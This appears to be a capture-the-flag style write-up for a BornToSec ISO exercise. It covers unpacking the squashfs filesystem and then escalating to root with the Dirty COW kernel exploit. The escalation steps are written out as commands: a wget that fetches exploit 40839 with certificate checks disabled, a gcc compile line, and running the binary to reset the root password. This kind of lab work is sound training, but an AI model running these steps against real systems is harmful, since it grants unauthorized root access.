 ## Unsquash

* To understand the file structure of the system that we need to Hack, we are going to open given BornToSec ISO file.

* In casper folder we can see filesystem.squashfs which tells us that system is compessed. It also means that we can decompress system using linux `unsquashfs` function.
You should have access as a laurie via ssh and use /tmp folder to unsqash the system file in /cdrom/casper/filesystem.squashfs


-----------------------------------------------------------------------------------------


## Privilege escalation

* We can access as a lower level user and try to user exisiting explits that will provide us with root access possbily. Exploits are possible for some versions of our system:

* As we know we can execute scripts from tmp folder, only need to upload them there

* There are an [existing script](https://github.com/sneakymonk3y/linux-exploit-suggester/blob/master/linux-exploit-suggester.sh) that we are going to use which named [dirtycow2](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails), it fits perfectly our system version


* A race condition was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings. All the information we have so far is included in this page.
The bug has existed since around 2.6.22 (released in 2007) and was fixed on Oct 18, 2016.
* An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system.
* This flaw allows an attacker with a local system account to modify on-disk binaries, bypassing the standard permission mechanisms that would prevent modification without an appropriate permission set.


* getting script `wget --no-check-certificate https://www.exploit-db.com/download/40839 -O dirty.c`

* Giving 755 permissions to the dirty.c file and to compile with `gcc -pthread dirty.c -o dirty -lcrypt`

* Then execute it and provide a new password for the root user, then just su root.

* Done!
